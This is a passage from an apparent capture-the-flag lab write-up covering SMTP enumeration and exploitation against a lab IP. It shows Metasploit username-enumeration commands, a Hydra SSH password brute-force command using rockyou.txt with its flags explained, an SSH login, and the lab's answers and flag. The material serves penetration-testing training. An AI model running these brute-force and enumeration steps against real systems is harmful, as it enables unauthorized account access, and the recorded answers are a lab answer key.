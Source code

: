 **9. We're going to be using the _"top-usernames-shortlist.txt"_ wordlist from the Usernames subsection of seclists (/usr/share/wordlists/SecLists/Usernames if you have it installed).  
What option do we need to set to the wordlist's path?**

```bash
use 0
set USER_FILE /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt
```

> USER_FILE

**10. Once we've set this option, what are the other essential parameters we need to set?**

```bash
set RHOSTS 10.10.98.49
run
```

> RHOSTS

**11. Now, run the exploit, this may take a few minutes, so grab a cup of tea, coffee, or water. Keep yourself hydrated!**

> No answer required

**12. Okay! Now that's finished, what username is returned?**

> administrator

### Task 7: Exploiting SMTP

**1. What is the password of the user we found during our enumeration stage?**

![[ns2-smtp-10.png|640]]

```bash
hydra -t 4 -l administrator -P /usr/share/wordlists/rockyou.txt -f -v 10.10.98.49 ssh
```

`-t`: No. of Parallel Tasks  
`-l`: Login Name  
`-P`: Password List (Wordlist)  
`-f`: Exit when valid credentials are found  
`-v`: Verbose Mode  

> alejandro

**2. Great! Now, let's SSH into the server as the user, what are the contents of smtp.txt**

```bash
ssh administrator@10.10.98.49
```

![[ns2-smtp-11.png|540]]

> THM{who_knew_email_servers_were_c00l?}

## MySQL
